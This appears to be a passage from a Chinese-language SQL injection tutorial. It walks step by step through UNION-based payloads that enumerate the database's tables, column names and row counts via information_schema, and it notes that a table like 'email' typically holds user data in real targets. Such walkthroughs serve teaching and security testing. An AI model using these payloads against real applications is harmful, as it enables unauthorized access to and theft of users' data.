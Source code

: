 ```
1 and 1=2 union select 1,count(table_name) from information_schema.tables where table_schema=database()
```

![](http://upload-images.jianshu.io/upload_images/118142-0f19703943b0d628.jpg)

这里我们使用`count`函数查询出了表的数量，一共七个。这里我们只查询当前数据库，如果要查询全部，可以把`where`子句给去掉。

### 查询表名

因为它只能显示一条记录，我们使用`limit`子句来定位显示哪一条。`limit`子句格式为`limit m,n`，其中`m`是从零开始的起始位置，`n`是记录数。我们构造：

```
1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit ?,1
```

我们需要把问号处换成 0 ~ 6，一个一个尝试，七个表名称就出来了。比如，我们获取第一个表的名称。

![](http://upload-images.jianshu.io/upload_images/118142-a2baf5dcdbb4c43a.jpg)

它叫`email`，在真实场景下，这里面一般就是一部分用户信息了。如果第一个表示无关紧要的信息，可以继续寻找。

### 查询列数量

与表数量的查询类似，我们需要把所有`table`换成`column`。我们构造：

```
1 and 1=2 union select 1,count(column_name) from information_schema.columns where table_name='email'
```

![](http://upload-images.jianshu.io/upload_images/118142-9535183e8fbfc067.jpg)

一共有两个。

### 查询列名

我们把`count`去掉，加上`limit`，就出来了：

```
1 and 1=2 union select 1,column_name from information_schema.columns where table_name='email' limit ?,1
```

同样，我们需要把问号替换为 0 和 1；

![](http://upload-images.jianshu.io/upload_images/118142-fc29392755f102e5.jpg)

我们这里查询结果为，第一列叫做`userid`，第二列叫做`email`。

### 查询行数量

```
1 and 1=2 union select 1, count(1) from email
```
